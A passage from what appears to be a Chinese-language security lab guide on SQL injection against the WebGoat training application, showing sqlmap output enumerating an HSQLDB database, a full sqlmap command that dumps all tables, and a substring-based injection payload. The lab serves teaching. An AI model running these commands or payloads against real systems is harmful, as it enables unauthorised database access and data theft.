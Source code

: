 ```
[18:24:19] [INFO] fetching banner
[18:24:19] [INFO] resumed: 2.3.4
back-end DBMS: HSQLDB 1.7.2
banner: '2.3.4'
[18:24:19] [INFO] fetching current user
[18:24:19] [INFO] resumed: SA
current user: 'SA'
current schema (equivalent to database on HSQLDB): 'PUBLIC'
[18:24:19] [WARNING] on HSQLDB it is not possible to enumerate the hostname
hostname:	None
[18:24:19] [INFO] testing if current user is DBA
current user is DBA: True
[18:24:19] [INFO] fetching database users
[18:24:19] [INFO] fetching number of database users
[18:24:19] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[18:24:19] [INFO] retrieved: 
[18:24:19] [WARNING] time-based comparison requires larger statistical model, please wait........................... (done)
[18:24:19] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:24:19] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[18:24:19] [CRITICAL] unable to retrieve the number of database users

[*] ending @ 18:24:19 /2019-08-27/

```
继续尝试下列命令：
```
sqlmap -u http://10.10.10.129:8080/WebGoat/SqlInjection/challenge  --cookie "JSESSIONID=7365ACCB67FEF4451194220BC4E9340D" --data "username_reg=§newuser&email_reg=123@401.com&password_reg=123&confirm_password_reg=123" --method "PUT"  -D "PUBLIC" -T "EMPLOYEE" --dump-all

```

可以得到所有员工信息，但看不到密钥。


5.尝试获取数据库的版本。使用下列载荷：
```
newuser'  AND  substring(database_version(),1,1)=’1
```

## 10 实验总结
> 总结本实验涉及的关键知识、技能、应用方法，对学生的现实实践进行指引。
## 11 参考资料
> 列举本实验的相关参考资料。